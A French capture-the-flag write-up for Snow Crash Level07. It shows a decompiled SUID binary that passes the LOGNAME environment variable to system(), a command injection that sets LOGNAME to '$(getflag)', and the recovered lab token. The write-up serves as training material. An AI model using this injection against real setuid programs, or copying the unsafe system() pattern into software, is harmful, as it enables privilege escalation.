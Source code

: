 # Snow Crash – Level07

## 🎯 Objectif
Exploiter une variable d’environnement manipulable (`LOGNAME`) dans un binaire SUID pour exécuter arbitrairement une commande et obtenir le flag.

---

## 📁 1. Fichiers disponibles

```bash
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

---

## 🔍 2. Analyse du binaire

En exécutant le binaire :

```bash
level07@SnowCrash:~$ ./level07
level07
```

Cela affiche la valeur de la variable d’environnement `LOGNAME`.

Pour comprendre, on extrait le binaire et on l’analyse via un outil comme `RetDec` :

```bash
scp -P 4242 level07@192.168.1.92:/home/user/level07/level07 .
retdec-decompiler.py level07
```

![alt text](image.png)

Code désassemblé simplifié :

```c
int main(int argc, char **argv)
{
    setresgid(getegid(), getegid(), getegid());
    setresuid(geteuid(), geteuid(), geteuid());

    char *env_val = getenv("LOGNAME");
    char *buffer;
    asprintf(&buffer, "/bin/echo %s", env_val);
    return system(buffer);
}
```

✅ On remarque que la commande appelée est `echo $LOGNAME`, ce qui est vulnérable à l’injection de commande.

---

## 🚀 3. Exploitation

En modifiant la variable d’environnement `LOGNAME` :

```bash
level07@SnowCrash:~$ export LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

---

## 🔑 Mot de passe du niveau suivant

```
fiumuikeil55xe9cu4dood66h
```

---

## ✅ Résumé

- 🛠️ Vulnérabilité : Injection via variable d’environnement (`LOGNAME`)
- 📥 Exploitation : `export LOGNAME='$(getflag)'`
- 🏆 Token : `fiumuikeil55xe9cu4dood66h`
- 🔓 Mot de passe `level08` : `fiumuikeil55xe9cu4dood66h`
